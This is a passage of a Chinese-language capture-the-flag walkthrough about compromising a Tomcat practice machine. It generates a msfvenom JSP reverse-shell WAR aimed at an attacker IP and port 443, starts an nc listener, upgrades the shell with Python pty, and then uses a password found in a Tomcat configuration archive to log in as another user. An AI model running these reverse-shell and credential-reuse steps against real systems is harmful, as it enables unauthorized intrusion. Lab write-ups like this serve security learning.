使用msfvenom生成payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.220.184.2 LPORT=443 -f war > shell.war
```
然后上传我们的payload

![在这里插入图片描述](https://img-blog.csdnimg.cn/95499a1e20ed41e4a1fd61657b738d84.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/600eb8c83eda44e2802d9cc54598f0ec.png)

上传成功，然后本地监听一下端口

```
nc -vnlp 443
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6eee096ff70e48b0907510fb7c3a079e.png)

访问连接，成功得到shell
当前的 shell 不是标准 shell，因为它缺乏 TTY shell 提供的很多好处，如反向搜索、tab补全等。所以让我们使用 Python 升级当前的 shell 会话
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
查看flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/ecdde3644a1048b09d472490ee44c9ea.png)

然后我们查看靶机上存在的用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/c72ba4c0b7e440f79106b397568e2a82.png)

发现只有一个用户

去到tomcat的配置文件目录下看看有没有其他文件
```
cd /con
```
发现有一个压缩包，我们解压一下这个压缩包
```
tar -xvf conf.tar.gz
ls
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/d4951cf37bb64afd985d89faebfc8b2c.png)

发现一个有趣的文件，我们去看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/87fa6ce7a74947f0a1ad2a8207cdbc0a.png)

文件配置里有robert的密码，我们登录试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/72cbbfdeaef74fac9b701002b7fcd28c.png)

登录成功，查看flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/7045c306e4674dcaaaaed87956b4774c.png)
